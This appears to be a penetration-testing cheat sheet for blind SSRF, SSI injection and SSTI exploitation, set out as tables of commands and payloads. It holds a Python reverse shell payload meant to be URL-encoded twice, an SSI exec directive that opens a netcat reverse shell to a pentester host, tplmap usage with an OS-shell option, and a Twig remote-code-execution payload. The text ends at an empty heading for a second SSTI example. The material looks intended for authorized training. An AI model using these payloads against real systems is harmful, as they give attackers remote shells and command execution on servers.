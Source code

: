# Blind SSRF Exploitation Example

## Command	Description

| Command                                                                                                     | Description                                                                  |
|-------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------|
| `nc -lvnp 9090`                                                                                             | Starting a netcat listener                                                   |
| `echo """<B64 encoded response>""" | base64 -d`                                                             | Decoding the base64 encoded response                                         |
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoded twice) |

# SSI Injection Exploitation Example

## SSI Directive Payload	Description

| SSI Directive Payload                                                              | Description     |
|------------------------------------------------------------------------------------|-----------------|
| `<!--#echo var="DATE_LOCAL" -->`                                                    | Date            |
| `<!--#printenv -->`                                                                 | All variables   |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell   |

# SSTI Exploitation Example 1

## Command	Description

| Command                                                               | Description                                                             |
|-----------------------------------------------------------------------|-------------------------------------------------------------------------|
| `git clone https://github.com/epinna/tplmap.git`                      | Cloning the tplmap repository                                           |
| `cd tplmap`                                                           | Navigating to the new directory                                         |
| `pip install virtualenv`                                              | Installing the virtual environment with pip                             |
| `virtualenv -p python2 venv`                                          | Creating a virtual environment named venv with python2                  |
| `source venv/bin/activate`                                            | Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter |
| `pip install -r requirements.txt`                                     | Installing dependencies                                                 |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john`             | Running tplmap against the target                                       |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell`  | Running tplmap with the os-shell option                                 |
| `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}` | Twig RCE payload                                                         |

# SSTI Exploitation Example 2
